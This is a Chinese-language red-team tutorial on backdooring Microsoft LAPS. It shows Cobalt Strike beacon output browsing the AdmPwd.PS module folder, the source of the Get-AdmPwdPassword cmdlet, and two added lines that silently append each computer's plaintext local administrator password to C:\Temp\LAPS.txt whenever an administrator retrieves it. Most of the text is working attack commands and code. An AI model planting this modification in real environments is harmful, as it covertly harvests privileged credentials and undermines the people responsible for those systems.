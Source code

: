 
```


1661474217831.png



# LAPS Backdoors

LAPS后门，主要通过修改PowerShell cmdlet里的方法，当管理员进行操作时，我们会得到一个密码的副本

查看PowerShell cmdlet所在文件夹

```
beacon> cd C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS
[*] cd C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS
[+] host called home, sent: 128 bytes
beacon> ls
[*] Tasked beacon to list files in .
[+] host called home, sent: 79 bytes
[*] Listing: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     05/05/2021 16:14:39   en-US
 30kb     fil     09/23/2016 00:38:16   AdmPwd.PS.dll
 5kb      fil     08/23/2016 14:40:58   AdmPwd.PS.format.ps1xml
 4kb      fil     08/23/2016 14:40:58   AdmPwd.PS.psd1
 33kb     fil     09/22/2016 08:02:08   AdmPwd.Utils.dll
```

1661474490204.png


修改这个文件

1661474660596.png


找到Main/AdmPwd.PS/Main.cs里的这个方法
```
[Cmdlet("Get", "AdmPwdPassword")]
public class GetPassword : Cmdlet
{
    [Parameter(Mandatory = true, Position = 0, ValueFromPipeline = true)]
    public String ComputerName;

    protected override void ProcessRecord()
    {
        foreach (string dn in DirectoryUtils.GetComputerDN(ComputerName))
        {
            PasswordInfo pi = DirectoryUtils.GetPasswordInfo(dn);
            WriteObject(pi);
        }
    }
}
```

1661474867370.png

添加这两行代码,当操作获取密码的命令时，把当前密码写文件到```C:\Temp\LAPS.txt```
```
var line = $"{pi.ComputerName} : {pi.Password}";
System.IO.File.AppendAllText(@"C:\Temp\LAPS.txt", line);
```
```